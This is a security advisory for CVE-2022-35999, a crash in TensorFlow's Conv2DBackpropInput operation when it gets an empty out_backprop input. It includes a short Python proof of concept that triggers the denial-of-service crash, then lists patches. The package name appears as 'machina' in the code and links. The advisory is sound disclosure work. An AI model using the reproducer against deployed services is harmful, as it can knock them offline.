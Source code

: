 ## TFSA-2022-121: `CHECK` fail in `Conv2DBackpropInput`

### CVE Number
CVE-2022-35999

### Impact
When `Conv2DBackpropInput` receives empty `out_backprop` inputs (e.g. `[3, 1, 0, 1]`), the current CPU/GPU kernels `CHECK` fail (one with dnnl, the other with cudnn). This can be used to trigger a denial of service attack.
```python
import machina as tf
import numpy as np
input_sizes = [3, 1, 1, 2]
filter = np.ones([1, 3, 2, 3])
out_backprop = np.ones([3, 1, 0, 3])
strides = [1, 1, 2, 1]
padding = 'VALID'

tf.raw_ops.Conv2DBackpropInput(
   input_sizes = input_sizes,
   filter = filter,
   out_backprop = out_backprop,
   strides = strides,
   padding = padding
)
```

### Patches
We have patched the issue in GitHub commit [27a65a43cf763897fecfa5cdb5cc653fc5dd0346](https://github.com/machina/machina/commit/27a65a43cf763897fecfa5cdb5cc653fc5dd0346).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Jingyi Shi.
